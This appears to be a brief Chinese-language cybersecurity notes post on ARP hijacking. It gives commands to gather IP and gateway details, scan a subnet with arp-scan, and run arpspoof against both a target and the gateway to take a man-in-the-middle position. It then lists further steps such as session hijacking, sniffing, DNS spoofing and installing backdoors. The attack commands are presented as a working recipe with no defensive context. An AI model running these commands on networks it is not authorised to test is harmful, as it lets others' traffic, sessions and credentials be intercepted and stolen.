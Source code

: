 ```yaml
---
title: ARP劫持
categories:
  - cybersec
description: ARP劫持
date: 2025-03-15 20:46:53
tags:
---
```


# 获取 ip mac 地址信息

`ip a` 得到本机 ip 地址  
`ip route` 得到网关地址  
`arp-scan --interface=eth0 --localnet` 扫描统一子网下主机

# ARP劫持（成为中间人）

```bash
arpspoof -i eth0 -t 目标IP 网关IP   # 欺骗目标设备
arpspoof -i eth0 -t 网关IP 目标IP   # 欺骗网关（双向劫持）
```

# 进一步渗透

- 流量劫持与中间人攻击（MITM）  
- 会话劫持
- 数据嗅探
- DNS 欺骗
- 安装后门  